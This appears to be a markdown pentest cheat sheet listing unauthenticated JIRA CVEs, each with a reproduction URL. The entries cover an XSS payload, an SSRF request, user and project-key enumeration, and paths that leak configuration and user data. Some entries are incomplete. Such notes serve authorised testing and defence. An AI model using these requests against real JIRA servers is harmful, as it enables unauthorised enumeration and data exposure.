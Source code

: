 # Unauthenticated & Exploitable JIRA Vulnerabilities 

### [Mindmap](https://www.xmind.net/m/Jrn7f8/)

Index | Technique
--- | ---
**1** | CVE-2020-14179 (Information Disclosure)
**2** | CVE-2020-14181 (User Enumeration)
**3** | CVE-2020-14178 (Project Key Enumeration)
**4** | CVE-2019-3402 (XSS)
**5** | CVE-2019-11581 (SSTI)
**6** | CVE-2019-3396 (Path Traversal)
**7** | CVE-2019-8451 (SSRF)
**8** | CVE-2019-8449 (User Information Disclosure)
**9** | CVE-2019-3403 (User Enumeration)
**10** | CVE-2019-8442 (Sensitive Information Disclosure)
**11** | Tools
**12**| Reports

___
#### CVE-2020-14179 (Sensitive Information Disclosure)
```
a. Navigate to <JIRA_URL>/secure/QueryComponent!Default.jspa
b. It leaks information about custom fields, custom SLA, etc.

```

#### CVE-2020-14181 (User Enumeration)

```
a. Navigate to <JIRA_URL>/secure/ViewUserHover.jspa?username=<uname>

```

#### CVE-2020-14178 (Project Key Enumeration)

```
a. Navigate to <JIRA_URL>/browse.<project_key>
b. Observe the error message on valid vs. invalid project key. Apart from the Enumeration, you can often get unauthenticated access to the project if the protections are not in place.

```

#### CVE-2019-3402 (XSS)
```
a. Navigate to <JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search

```

#### CVE-2019-11581 (SSTI)

```
a. Navigate to <JIRA_URL>/secure/ContactAdministrators!default.jspa
```
#### CVE-2019-3396 (Path Traversal)

#### CVE-2019-8451 (SSRF)

```
a.  Navigate to <JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com
```

#### CVE-2019-8449 (User Information Disclosure)
```
a. Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
b. Observe that the user related information will be available.
```

#### CVE-2019-3403 (User Enumeration)
```
a.  Navigate to <Jira_URL>/rest/api/2/user/picker?query=<user_name_here> 
b.  Observe the difference in response when valid vs. invalid user is queried.
```
#### CVE-2019-8442 (Sensitive Information Disclosure)
```
a.  Navigate to <JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
b. Observe that the pom.xml file is accessible.
```
#### Tools

[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/blob/master/workflows/jira-workflow.yaml) can be used to automate most of these CVEs Detection.

#### Reports
* [https://hackerone.com/reports/632808](https://hackerone.com/reports/632808)
* [https://hackerone.com/reports/1003980](https://hackerone.com/reports/1003980)
#### Blog
[How i converted SSRF TO XSS in jira.](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)


